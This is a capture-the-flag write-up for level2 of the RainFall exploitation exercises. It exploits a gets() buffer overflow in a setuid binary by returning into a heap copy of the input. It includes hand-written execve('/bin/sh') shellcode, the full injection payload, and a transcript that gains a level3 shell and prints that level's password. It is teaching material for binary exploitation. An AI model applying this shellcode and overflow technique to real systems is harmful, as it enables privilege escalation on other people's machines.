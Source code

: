 # level2

## Initial analysis

According to `file` :

```bash
level2@RainFall:~$ file level2
level2: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x0b5bb6cdcf572505f066c42f7be2fde7c53dc8bc, not stripped
```

So we know we want to spawn a shell while having the privilege of `level3`.

Let's analyse further with `objdump` :

```text
level2@RainFall:~$ objdump -Mintel -d level2

level2:     file format elf32-i386

...

080484d4 <p>:
 80484d4:       55                      push   ebp
 80484d5:       89 e5                   mov    ebp,esp
 80484d7:       83 ec 68                sub    esp,0x68
 80484da:       a1 60 98 04 08          mov    eax,ds:0x8049860
 80484df:       89 04 24                mov    DWORD PTR [esp],eax
 80484e2:       e8 c9 fe ff ff          call   80483b0 <fflush@plt>
 80484e7:       8d 45 b4                lea    eax,[ebp-0x4c]
 80484ea:       89 04 24                mov    DWORD PTR [esp],eax
 80484ed:       e8 ce fe ff ff          call   80483c0 <gets@plt>
 80484f2:       8b 45 04                mov    eax,DWORD PTR [ebp+0x4]
 80484f5:       89 45 f4                mov    DWORD PTR [ebp-0xc],eax
 80484f8:       8b 45 f4                mov    eax,DWORD PTR [ebp-0xc]
 80484fb:       25 00 00 00 b0          and    eax,0xb0000000
 8048500:       3d 00 00 00 b0          cmp    eax,0xb0000000
 8048505:       75 20                   jne    8048527 <p+0x53>
 8048507:       b8 20 86 04 08          mov    eax,0x8048620
 804850c:       8b 55 f4                mov    edx,DWORD PTR [ebp-0xc]
 804850f:       89 54 24 04             mov    DWORD PTR [esp+0x4],edx
 8048513:       89 04 24                mov    DWORD PTR [esp],eax
 8048516:       e8 85 fe ff ff          call   80483a0 <printf@plt>
 804851b:       c7 04 24 01 00 00 00    mov    DWORD PTR [esp],0x1
 8048522:       e8 a9 fe ff ff          call   80483d0 <_exit@plt>
 8048527:       8d 45 b4                lea    eax,[ebp-0x4c]
 804852a:       89 04 24                mov    DWORD PTR [esp],eax
 804852d:       e8 be fe ff ff          call   80483f0 <puts@plt>
 8048532:       8d 45 b4                lea    eax,[ebp-0x4c]
 8048535:       89 04 24                mov    DWORD PTR [esp],eax
 8048538:       e8 a3 fe ff ff          call   80483e0 <strdup@plt>
 804853d:       c9                      leave  
 804853e:       c3                      ret    

0804853f <main>:
 804853f:       55                      push   ebp
 8048540:       89 e5                   mov    ebp,esp
 8048542:       83 e4 f0                and    esp,0xfffffff0
 8048545:       e8 8a ff ff ff          call   80484d4 <p>
 804854a:       c9                      leave  
 804854b:       c3                      ret    
 804854c:       90                      nop
 804854d:       90                      nop
 804854e:       90                      nop
 804854f:       90                      nop
```

Unlike level2, this setup does not include any existing code in the .text section to spawn a shell. In our exploit, we must somehow inject additional code to achieve this. This is known as **shellcode** — a small piece of code used as the payload when exploiting a software vulnerability.

In function `p`, the highly unsafe `gets` function is called once again. This is a serious vulnerability because it allows a **buffer overflow**, enabling us to overwrite the return address of function `p` on the stack. But where should we redirect execution?

Since we need to introduce additional code, we can inject it into the buffer used by `gets` and then modify the return address to point to our shellcode, which resides in the stack.

However, this approach have an issue in this particular setup. Consider the following snippet of instructions:

```
 80484f2:       8b 45 04                mov    eax,DWORD PTR [ebp+0x4]
 80484f5:       89 45 f4                mov    DWORD PTR [ebp-0xc],eax
 80484f8:       8b 45 f4                mov    eax,DWORD PTR [ebp-0xc]
 80484fb:       25 00 00 00 b0          and    eax,0xb0000000
 8048500:       3d 00 00 00 b0          cmp    eax,0xb0000000
 8048505:       75 20                   jne    8048527 <p+0x53>
```

The program performs a check on the return address located at `ebp + 0x4`. Specifically, it verifies whether the most significant byte of the return address is `0xb`. If it is, this indicates that we have manipulated the return address to point to the stack, which would prevent us from successfully redirecting execution to our shellcode.

If the check fails, execution is redirected to `0x8048527`. This presents a challenge, as it blocks a straightforward return-to-shellcode approach. But we might have a solution :

```
 8048527:       8d 45 b4                lea    eax,[ebp-0x4c]
 804852a:       89 04 24                mov    DWORD PTR [esp],eax
 804852d:       e8 be fe ff ff          call   80483f0 <puts@plt>
 8048532:       8d 45 b4                lea    eax,[ebp-0x4c]
 8048535:       89 04 24                mov    DWORD PTR [esp],eax
 8048538:       e8 a3 fe ff ff          call   80483e0 <strdup@plt>
 804853d:       c9                      leave  
 804853e:       c3                      ret    
```

The program first echoes back what we wrote into the buffer and then proceeds to duplicate the stack-allocated buffer into a heap-allocated region. This is an interesting behavior!

Instead of modifying the return address to point to our buffer in the stack — where execution is blocked by the "security check". We can redirect it to the heap-allocated region instead. Since the data is duplicated exactly, our shellcode will still be present in memory and ready for execution.

The main challenge here is that our shellcode must not contain any **NUL bytes** (0x00), as `strdup` treats NUL as the end of the string. If our shellcode includes a NUL byte, it will be truncated prematurely, making it ineffective.

## Crafting the shellcode

Let's do some assembly to craft our shellcode, shall we ?

```asm
bits 32

section .text

global _start

_start:
    jmp .shell_define
.ret:
    pop ebx
    xor eax, eax
    mov ecx, eax
    mov edx, eax
    mov al, 0x0b
    int 0x80
.shell_define:
    call .ret
    shell db "/bin/sh", 0
```

This is a basic program that `execve` a shell. Note the trick to get the address of the string `/bin/sh` : at the beginning we immediately jump to a `call .ret`, which pushes the address of `/bin/sh` into the stack and jump to `pop ebx`, which pop the address of `/bin/sh` into the register `ebx`. This trick is used to dynamically get the address, since somtimes we do not know the exact address our shellcode will be injected.
Do note that we use the **relative** version of `jmp` and `call`, so we can indicate **offsets** instead of **absolute address**.

We are using x86 calling conventions and `int 0x80` to trap into kernel mode for the syscall.
Now, let's compile the source into an object file, and dump the `.text` section :

```bash
$> nasm -f elf32 shellcode.s
$> readelf --sections shellcode.o
There are 15 section headers, starting at offset 0x40:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  ...
  [ 1] .text             PROGBITS        00000000 0002a0 00001a 00  AX  0   0 16
  ...

```

Offset is `0x2a0` into the file and the size of our shellcode is `0x1a`. We can use `xxd` to extract the bytes and `sed` with some regex to format into an hex litteral :

```bash
$> xxd -l0x1a -s0x2a0 -ps shellcode.o | sed -E 's/([a-f0-9]{2})/\\x\U\1/g'
\xEB\x0B\x5B\x31\xC0\x89\xC1\x89\xC2\xB0\x0B\xCD\x80\xE8\xF0\xFF\xFF\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x00
```

This shellcode doesn't lead to any `0x00` expect for the last byte. `strdup` will stop there. Perfect !

## Putting it together

These are the remaining steps :

  - Find how big the buffer is to know how many bytes we have to fill until overwriting the return address.
  - Set the return address to the return address of `strdup`.
  - Craft a python command to inject our **shellcode**, filling characters, and the new **return address**.

Using **GDB** and the disassembly, we find out that the buffer starting address is located at `ebp - 0x4c` :

```
 80484e7:       8d 45 b4                lea    eax,[ebp-0x4c]
 80484ea:       89 04 24                mov    DWORD PTR [esp],eax
 80484ed:       e8 ce fe ff ff          call   80483c0 <gets@plt>
```

 We need to fill 76 bytes (`0x4c` is 76 in decimal) + 4 bytes (because `ebp` has been pushed to the stack, we need to add an extra 4 bytes), to get to the return address location in the stack (that is, `ebp + 4`).

Let's find the return address of `strdup` by setting a breakpoint just after the call :

```
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   ebp
   0x080484d5 <+1>:     mov    ebp,esp
   0x080484d7 <+3>:     sub    esp, 0x68
   ...
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave  
   0x0804853e <+106>:   ret    
End of assembler dump.
(gdb) b *0x0804853d
Breakpoint 1 at 0x804853d
(gdb) r
Starting program: /home/user/level2/level2 
foo
foo

Breakpoint 1, 0x0804853d in p ()
(gdb) i r eax
eax            0x804a008        134520840
```

Our shellcode is 26 bytes long. This is the layout of the bytes we will inject :

```
[shellcode][filling][return_address]
    26        54           4
```

This leads to the following python command :

```
python -c 'print("\xEB\x0B\x5B\x31\xC0\x89\xC1\x89\xC2\xB0\x0B\xCD\x80\xE8\xF0\xFF\xFF\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x00" + "a"*54 + "\x08\xa0\x04\x08")'
```

We can then proceed to pwn this program. Notice the use `cat` again to prevent premature closing of the *standard input*.

```bash
level2@RainFall:~$ (python -c 'print("\xEB\x0B\x5B\x31\xC0\x89\xC1\x89\xC2\xB0\x0B\xCD\x80\xE8\xF0\xFF\xFF\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x00" + "a"*54 + "\x08\xa0\x04\x08")'; cat) | ./level2 
�
 [1����°
        �����/bin/sh
whoami
level3
cd ../level3
cat .pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

Success !